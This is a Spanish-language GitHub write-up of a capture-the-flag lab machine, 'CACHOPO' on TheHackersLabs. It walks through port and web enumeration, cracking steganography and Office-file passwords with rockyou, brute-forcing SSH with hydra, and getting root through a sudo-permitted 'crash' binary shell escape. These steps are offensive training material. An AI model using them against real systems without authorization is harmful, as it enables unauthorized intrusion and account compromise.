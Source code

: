 # <p align="center">Laboratorio de Ciberseguridad: Resolución de la Máquina CACHOPO 🧠</p>

<p align="center">
  <img src="Imagenes/Cachopo.png">
</p>

<p align="center">🖥️ **Plataforma: TheHackersLabs** 🖥️</p>

---

<p align="center">
  <img src="Imagenes/GRUPO URTG.png">
</p>

---

## <p align="center">Objetivo del Laboratorio</p>

El propósito de este ejercicio es simular un entorno de intrusión controlada mediante técnicas ofensivas: reconocimiento activo, enumeración de servicios, análisis de archivos y escalada de privilegios. Trabajaremos con la máquina **CACHOPO**, la cual representa un entorno vulnerable realista dentro de una red aislada.

---

## 🚀 Inicio del Entorno y Reconocimiento de Red

1. 🔌 **Ejecución de la máquina CACHOPO**  
   - IP asignada: `172.20.10.2`

2. ✅ **Validación de conectividad entre máquinas**
   ```bash
   ping 172.20.10.2
   ```

3. 🔎 **Escaneo de puertos expuestos**
   ```bash
   sudo nmap 172.20.10.2
   ```
   > Se detectan puertos abiertos: `22 (SSH)` y `80 (HTTP)`

---

## 🌐 Enumeración del Servicio Web

1. 🔍 **Acceso al sitio desde el navegador**
2. 🗂️ **Exploración de directorios ocultos con Gobuster**
   ```bash
   gobuster dir -u http://172.20.10.2 -w /usr/share/wordlists/dirbuster/...
   ```
   > Primer escaneo devuelve códigos 301 (redirección), por lo que se ajusta el comando.

3. 🔐 **Segunda ejecución detecta códigos 403 (acceso denegado)**:
   - `.htaccess`, `.htpasswd`, `/server-status`

4. 🛡️ **Escaneo con Nikto revela dominio virtual:**
   ```
   http://cachopo.thl
   ```

5. 🛠️ **Solución: añadir dominio al archivo de hosts**
   ```bash
   echo "172.20.10.2 cachopo.thl" >> /etc/hosts
   ```

---

## 🖼️ Análisis de Imagen y Esteganografía

1. 📥 **Descarga de imagen desde el sitio**
2. 🔍 **Verificación de metadatos**
   ```bash
   exiftool cachopo.jpg
   ```

3. 🔐 **Intento de extracción con steghide**
   ```bash
   steghide extract -sf cachopo.jpg
   ```

4. 🔓 **Ataque por diccionario con stegcracker**
   ```bash
   stegcracker cachopo.jpg /usr/share/wordlists/rockyou.txt
   ```
   > Contraseña encontrada: `doggies`

5. 📂 **Extracción del archivo oculto**
   ```bash
   steghide extract -sf cachopo.jpg -p doggies
   ```

---

## 📁 Descubrimiento de Archivo Protegido

1. 🌐 **Acceso a `/mycachopo` → archivo `cocineros.txt`**
2. 🔍 **Análisis del archivo**
   ```bash
   file cocineros.txt
   ```
   > Resultado: Formato cifrado CDFV2

3. 📝 **Renombrar para apertura como documento**
   ```bash
   mv cocineros.txt cocineros.doc
   libreoffice cocineros.doc
   ```

4. 🔐 **Ataque de contraseña con John the Ripper**
   ```bash
   python3 /usr/share/john/office2john.py cocineros.doc > hash.txt
   john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
   ```
   > Contraseña: `horse1`

5. 🧑‍💻 **Contenido recuperado**: usuarios posibles → `Sofia`, `Carlos`, `Luis`

---

## 🛠️ Ataque por Fuerza Bruta (SSH)

1. 🧾 **Crear archivo de usuarios**
   ```bash
   echo -e "Sofia\nCarlos\nLuis" > user.txt
   ```

2. 🔓 **Ejecutar hydra**
   ```bash
   hydra -L user.txt -P /usr/share/wordlists/rockyou.txt ssh://172.20.10.2
   ```
   > Acceso válido: `carlos : [contraseña descubierta]`

3. 🖥️ **Ingreso al sistema**
   ```bash
   ssh carlos@172.20.10.2
   ```

---

## 🔝 Escalada de Privilegios

1. 🔍 **Verificación de permisos sudo**
   ```bash
   sudo -l
   ```
   > El usuario puede ejecutar `/usr/bin/crash` como root sin contraseña

2. 🚨 **Explotación del binario crash**
   ```bash
   sudo /usr/bin/crash
   !sh
   ```

3. ✅ **Confirmación de acceso root**
   ```bash
   whoami
   # root
   ```

---

## 🧾 Conclusiones

- ✅ La máquina **CACHOPO** permitió aplicar múltiples técnicas de pentesting en un solo flujo.
- 🔧 Se demostró cómo un binario con permisos mal gestionados puede convertirse en un vector de escalada.
- 🧠 El ejercicio integró herramientas clave: `nmap`, `gobuster`, `nikto`, `steghide`, `john`, `hydra`, y `sudo`.

---

## 📚 Referencias

- https://curiosidadesdehackers.com/resolucion-de-la-maquina-cachopo/
- https://medium.com/@D4nYeD/plataforma-thehackerslabs-ctf-write-up-cachopo-f84b11198dd0
- `man nmap`, `man steghide`, `man john`, `man sudo
